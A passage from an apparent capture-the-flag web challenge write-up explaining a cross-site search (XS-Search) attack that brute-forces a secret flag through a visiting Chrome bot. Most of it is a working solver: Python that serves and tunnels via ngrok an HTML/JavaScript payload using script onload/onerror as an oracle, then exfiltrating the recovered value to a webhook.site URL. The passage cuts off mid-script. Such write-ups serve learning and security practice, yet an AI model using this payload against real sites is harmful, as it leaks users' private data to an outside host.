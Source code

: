 ```html
</html>
```

We are using recursion to call the `bruteForce` function again on the `onload`, and `onerror` events and finally exfiltrating the flag via webhook URL if the found character value is `}`.

### Exploitation and exfiltration of the flag 💰

We can replace the webhook URL with a newly generated one from [webhook.site](https://webhook.site) and host the HTML page on a local Python3 `http.server`. Using `ngrok` we can then generate a public URL of the local server and submit it from the application homepage for the Chrome bot to visit. Here's the full-chain solver script:

```python
#!/usr/bin/env python3
import sys, requests, time, logging.config
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from threading import Thread
try:
	from pyngrok import ngrok
except:
	print("[!] pyngrok python3 module is required!\n\t Install with: pip3 install pyngrok")
	sys.exit()

logging.config.dictConfig({
    'version': 1,
    'disable_existing_loggers': True,
})

hostURL = "http://127.0.0.1:1337"               # Challenge host URL

exploitHTML = """
<html>
<head></head>
<body>
<script type="text/javascript">
flag_charset = "}0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!$()*,-[]_}";
var flag = "HTB{";
var charIndex = 0;

const bruteForce = () => {
	var script = document.createElement("script");
	script.src = `//127.0.0.1:1337/api/entries/search?q=${flag}${flag_charset.charAt(charIndex)}`;
	document.body.appendChild(script);
	script.onload = () => {
		flag += flag_charset.charAt(charIndex);
		charIndex = 0;
		script.parentNode.removeChild(script);
		if (flag.slice(-1) != '}') {
			bruteForce();
		}
		else {
			img = new Image();
			img.src = '//webhook.site/WEBHOOK_TOKEN?flag='+flag;
		}
	}
	script.onerror = () => {
		script.parentNode.removeChild(script);
		charIndex += 1;
		bruteForce();
	}
}
bruteForce();
```